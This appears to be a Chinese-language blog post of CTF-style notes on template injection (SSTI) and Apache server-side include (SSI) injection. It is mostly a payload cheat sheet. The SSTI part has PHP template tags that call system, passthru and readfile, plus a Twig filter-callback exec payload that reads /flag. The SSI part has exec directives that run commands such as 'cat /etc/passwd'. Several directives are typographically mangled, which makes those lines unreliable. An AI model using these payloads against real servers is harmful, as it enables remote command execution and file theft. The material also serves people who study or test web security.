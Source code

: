 
---
layout: post
title: 其它的注入方法
categories: [web,ssti,ssi]
---
## SSTI注入

```
{if phpinfo()}{/if}
{if readfile(‘文件路劲’)}{/if}
{if show_source(‘文件路径’)}{/if}
{if passthru(‘操作命令’)}{/if}
{if system(‘操作命令’)}{/if}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
根目录查找flag
```

## SSI注入

### Apache SSI远程命令执行漏洞

默认Apache不开启SSI，SSI这种技术已经比较少用了。如果应用没有使用到SSI，关闭服务器对SSI的支持即可。

IIS和Apache都可以开启SSI功能

### 语法

```
①显示服务器端环境变量<#echo>

本文档名称：

<!–#echo var="DOCUMENT_NAME"–>

现在时间：

<!–#echo var="DATE_LOCAL"–>

显示IP地址：

<! #echo var="REMOTE_ADDR"–>

②将文本内容直接插入到文档中<#include>

<! #include file="文件名称"–>

<!--#include virtual="index.html" -->

<! #include virtual="文件名称"–>

<!--#include virtual="/www/footer.html" -->

注：file包含文件可以在同一级目录或其子目录中，但不能在上一级目录中，virtual包含文件可以是Web站点上的虚拟目录的完整路径

③显示WEB文档相关信息<#flastmod><#fsize>(如文件制作日期/大小等)

文件最近更新日期：

<! #flastmod file="文件名称"–>

文件的长度：

<!–#fsize file="文件名称"–>

④直接执行服务器上的各种程序<#exec>(如CGI或其他可执行程序)

<!–#exec cmd="文件名称"–>

<!--#exec cmd="cat /etc/passwd"-->

<!–#exec cgi="文件名称"–>

<!--#exec cgi="/cgi-bin/access_log.cgi"–>

将某一外部程序的输出插入到页面中。可插入CGI程序或者是常规应用程序的输入，这取决于使用的参数是cmd还是cgi。

⑤设置SSI信息显示格式<#config>(如文件制作日期/大小显示方式)

⑥高级SSI可设置变量使用if条件语句。
```